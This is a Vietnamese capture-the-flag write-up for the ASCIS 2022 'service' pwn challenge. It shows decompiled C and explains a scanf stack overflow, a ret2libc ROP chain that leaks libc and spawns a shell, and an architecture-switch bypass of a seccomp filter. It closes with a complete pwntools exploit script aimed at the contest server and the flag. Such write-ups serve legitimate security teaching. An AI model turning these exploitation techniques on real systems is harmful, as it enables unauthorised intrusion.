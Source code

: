 # service

Đây là một bài cực kì dễ trong kì thi lần này, dễ hơn cả đề của vòng khởi động =))), không biết là do chủ đích của tác giả hay do một lí do nào đó khiến cho đề thọt (cá nhân mình nghĩ là lí do này).

Bài này chỉ là một bài buffer overflow cơ bản với `scanf("%s")` trên một binary không PIE và không canary => simple ROP attack.

## Checksec

![image](https://user-images.githubusercontent.com/57558487/196594037-1675bdee-be27-4df7-acbb-c3e908634ab9.png)

## Reverse

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char v4[32]; // [rsp+10h] [rbp-30h] BYREF
  int v5; // [rsp+30h] [rbp-10h] BYREF
  unsigned int buf; // [rsp+34h] [rbp-Ch] BYREF
  int fd; // [rsp+38h] [rbp-8h]
  int v8; // [rsp+3Ch] [rbp-4h]

  buf = 0;
  v8 = 0;
  v5 = 0;
  setupbuf(argc, argv, envp);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Opening /dev/urandom failed, contact admin.");
    result = 0;
  }
  else
  {
    if ( check )
      setup_seccomp();
    read(fd, &buf, 4uLL);
    srand(buf);
    v8 = rand();
    puts("*-*-*-*-*-* Welcome to ASCIS 2022 *-*-*-*-*-*-*\n");
    printf("What is your name?\n\n> ");
    __isoc99_scanf("%s", v4);
    printf("Can you guess my secret?\n\n> ");
    __isoc99_scanf("%d", &v5);
    if ( v8 != v5 )
      exit(0);
    win();
    result = 0;
  }
  return result;
}
```

Nhìn qua đề, ta có thể thấy ban đầu đề gọi `open("/dev/urandom", 0)`, sau đó 4 byte random vào `buf`, sau đó yêu cầu ta đoán nó, tuy nhiên vì hàm `__isoc99_scanf("%s", v4)` có lỗi buffer overflow, ta chỉ cần đơn giản đè qua biến `buf` và sau đó nhập giá trị `v5` với giá trị ta vừa đè là bypass được hàm `exit(0)`

Tiếp theo đó vì binary không bật cả PIE lẫn canary, ta có thể dễ dàng đè qua return address và tiến hành ROP attack. đầu ta dùng `puts(puts.got)` để in ra địa chỉ của libc, sau đó gọi trở lại hàm `main`, tiến hành tấn công một lần nữa đề gọi `system("/bin/sh")`

Quá dễ phải không, tuy nhiên đó là do mình chưa đề cập đến hàm `setup_seccomp()` ở phía trên, hàm này được dùng để quy định các `syscall` được gọi hay không. Tuy nhiên hàm này chỉ dược kích hoạt khi giá trị biến `check` khác 0.

Trong binary mà ban tổ chức đưa cho mình, giá trị `check` = 0, mình kiểm tra các giá trị tham chiếu đến biến `check` cũng không có gì đặc biệt. Vì thế trên local hàm `setup_seccomp()` không được gọi, và ở server cũng vậy :)))

![image](https://user-images.githubusercontent.com/57558487/196594922-fef96481-a502-4615-b46c-52a61d39e2b8.png)

Mình nghĩ đây là lỗi kĩ thuật, vì khi mình xem qua filter syscall trong hàm, mình nhận ra ý đồ khá rõ ràng của tác giả, bạn có thể xem seccomp dump phía dưới

![image](https://user-images.githubusercontent.com/57558487/196595147-6dea33e1-563b-4485-90fa-8cba3a8c5d52.png)

Tác giả chỉ allow một số syscall nhất định, trong đó không có `execve` và `open`, khiến cho ta không thể chạy shell hoặc gọi chain `open` -> `read` -> `write`, tuy nhiên filter ở đây bị thọt là không check arch, ta có thể switch sang x86 để bypass các filter, lúc này syscall `fstat` ở x86_64 sẽ trở thành syscall `open` ở x86 :))

![image](https://user-images.githubusercontent.com/57558487/196595679-04e47577-e67b-4e5d-ac5f-9072fbd47da5.png)

Tác giả cũng đã cung cấp đường dẫn file `flag` trong hàm `win`, nên mình khác chắc đây là một bài bypass seccomp và gọi `open` -> `read` -> `write`, tuy nhiên vì đề thọt trong khi thi nên nó trở thành một bài newbiew :))).

Trong cuộc thi thì mình làm theo cách cơ bản, nhưng nếu bài không bị lỗi thì mình nghĩ cũng sẽ không quá khó, sau khi leak được libc address, ta có thể build một ROPchain đầy đủ. Có thể dùng `retf` và `int0x80` để gọi các syscall ở x86.

## Exploit

```python
#
#	***************************
#	* Pwning exploit template *
#	* Arthor: Cobra           *
#	***************************
#

from pwn import *
import sys

local = 0
debug = 0

# context.arch = 'amd64'
# context.aslr = False
# context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def conn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-h', '--help'):
			print('Usage: python ' + sys.argv[0] + ' <option> ...')
			print('Option:')
			print('        -h, --help:     Show help')
			print('        -l, --local:    Running on local')
			print('        -d, --debug:    Use gdb auto attach')
			exit(0)
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		s = process('./chall_patched')
		if debug:
			gdb.attach(s, gdbscript='''
				b*0x00000000004014bb
			''' + 'c\n' * 1)
		else:
			raw_input('DEBUG')
	else:
		s = remote('34.143.130.87', 4097)

	return s

s = conn()

elf = ELF('chall')
libc = ELF('libc-2.31.so')

rop = ROP(elf)

pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
ret = rop.find_gadget(['ret']).address

payload = p64(0) * 6
payload += p64(0) + p64(ret)
payload += p64(pop_rdi) + p64(elf.got['puts'])
payload += p64(elf.symbols['puts']) + p64(ret)
payload += p64(elf.symbols['main'])

s.sendlineafter(b'> ', payload)
s.sendlineafter(b'> ', b'0')

s.recvuntil(b'cat /home/ctf/flag.txt\n')

libc.address = int.from_bytes(s.recv(6), byteorder = 'little', signed = False) - libc.symbols['puts']
log.info('Libc base: 0x%x', libc.address)

payload = p64(0) * 6
payload += p64(0) + p64(ret)
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.symbols['system'])

s.sendlineafter(b'> ', payload)
s.sendlineafter(b'> ', b'0')

s.sendline(b'cat /home/ctf/flag.txt')

s.interactive()
```

Flag: ASCIS{syscall_g00d_int_0x80_b3st}

